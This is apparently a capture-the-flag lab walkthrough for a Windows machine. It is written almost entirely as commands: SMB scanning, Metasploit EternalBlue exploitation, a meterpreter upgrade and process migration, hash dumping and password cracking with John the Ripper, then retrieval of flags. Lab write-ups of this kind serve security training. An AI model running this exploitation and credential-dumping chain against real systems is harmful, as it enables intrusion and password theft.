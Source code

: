# BASIC INFO

```
export IP=10.10.118.163


```

# EXPLOIT

```
nmap --script=smb* $IP

```
> Vulnerable to eternal blue
```
msfconsole
search eternalblue type:exploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 10.10.118.163
run

```

# GET METERPRETER

```
ctrl^z to background the session
use post/multi/manage/shell_to_meterpreter
set session 1
exploit
sessions 2
shell
whoami
ctrl^z
ps

```
> Note down pid of spoolsv.exe
>
> pid=2568

# JOHN THE RIPPER

```
migrate 2568
hashdump
```
> copy the hash and save to a file
```
john hash --wordlist=/usr/share/wordllists/rockyou.txt
password = alqfna22

```

# FINDING THE FLAG

```
cd C:/
cat flag1.txt
flag1: access_the_machine
```

> Google windows sam location

```
C:/Users/System32/config
cat flag2.txt
flag2:sam_database_elevated_access

search -f flag3.txt
cat flag3.txt
flag3:admin_documents_can_be_valuable
```